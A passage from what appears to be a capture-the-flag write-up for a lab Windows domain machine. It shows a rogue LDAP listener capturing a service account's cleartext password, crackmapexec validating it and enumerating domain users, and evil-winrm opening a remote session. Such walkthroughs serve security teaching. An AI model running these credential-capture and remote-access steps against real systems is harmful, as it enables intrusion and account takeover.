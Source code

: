 When we click "Test LDAP Profile" we get a callback to our makeshift LDAP server listener on `389`, and the password for `svc_ldap` via cleartext\!

![image-27.png](/assets/img/Authority/image-27.png)

Awesome so we now have the credentials for a `svc_ldap`!

```shell
svc_ldap:lDaP_1n_th3_cle4r!
```
{: file="Credentials" }

### User
Lets check if these credentials valid using `crackmapexec` to enumerate all the users in the domain:

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ crackmapexec smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' --users
SMB         authority.htb   445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         authority.htb   445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
SMB         authority.htb   445    AUTHORITY        [*] Trying to dump local users with SAMRPC protocol
SMB         authority.htb   445    AUTHORITY        [+] Enumerated domain user(s)
SMB         authority.htb   445    AUTHORITY        authority.htb\Administrator                  Built-in account for administering the computer/domain
SMB         authority.htb   445    AUTHORITY        authority.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         authority.htb   445    AUTHORITY        authority.htb\krbtgt                         Key Distribution Center Service Account
SMB         authority.htb   445    AUTHORITY        authority.htb\svc_ldap
```

And the creds are valid, and reveals no other users in the domain!

![image-14.png](/assets/img/Authority/image-14.png)

As our user is the only non standard user, it seems likely we should have access to get `user.txt`. Maybe we can connect remotely - lets try via `WinRM` as `5985` is open.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ evil-winrm -u svc_ldap -i authority.htb -p lDaP_1n_th3_cle4r!
```
